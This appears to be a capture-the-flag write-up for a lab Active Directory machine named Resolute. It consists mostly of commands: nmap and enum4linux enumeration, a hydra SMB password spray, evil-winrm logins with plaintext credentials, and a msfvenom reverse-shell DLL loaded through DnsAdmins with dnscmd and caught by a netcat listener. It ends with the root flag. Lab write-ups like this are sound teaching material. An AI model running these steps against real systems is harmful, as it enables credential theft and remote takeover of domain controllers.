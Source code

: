 We being to enumerate the box with nmap

```
nmap -sV -sC -sS -Pn -T4 10.10.10.169 -p-
```
We see that this is an active directory and add the domain name to the /etc/host file 
```
echo "10.10.10.169  megabank.local" >> /etc/hosts
```
Afterwards we review the nmap results to begin enumeration with enum4linux:
```
enum4linux -a 10.10.10.169
```
We find the password for the user Marko ```Welcome123!```

We then get the root dn ```DC=megabank,DC=local``` using nmap:
```
nmap --script=ldap-search -Pn -p 389 10.10.10.169
```
we try to sign in with marko but it was not his password so we used hydra to find the right user for the password:
```
hydra -L resolute_users.txt -p Welcome123! smb://10.10.10.169 -V -f
```
we sign in with the user melanie:

```
evil-winrm -i  megabank.local -u melanie -p Welcome123!
```

We begin to enumerate the machine and start with the C:\ directory:
```
Get-ChildItem -Force
```
this listed all the folders in the directory and we decided to checkout the ```PSTranscripts``` folder and
find a file called ```PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt``` her we find the password for the 
user ryan : ```Serv3r4Admin4cc123!```

We login as ryan and use the command ```whoami \all``` to see that we are part of the dnsadmins group.
with that knowledge we do dll injection and create a payload with msfvenom and use smbserver.py:
```
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.16.11 LPORT=1234-f dll -o resol.dll
./smbserver.py SHARE ./
```
As ryan we then share the file and open up a listener:
```
dnscmd RESOLUTE /config /serverlevelplugindll \\10.10.16.11\SHARE\resol.dll
sc.exe stop dns
sc.exe start dns
```
```nc -nlvp 1234```

We successfully login as Administrator and find the root flag.

root flag: ```feb02414afa5a93579d64d3f5c9c561a```

System has been rooted; action is no longer required.







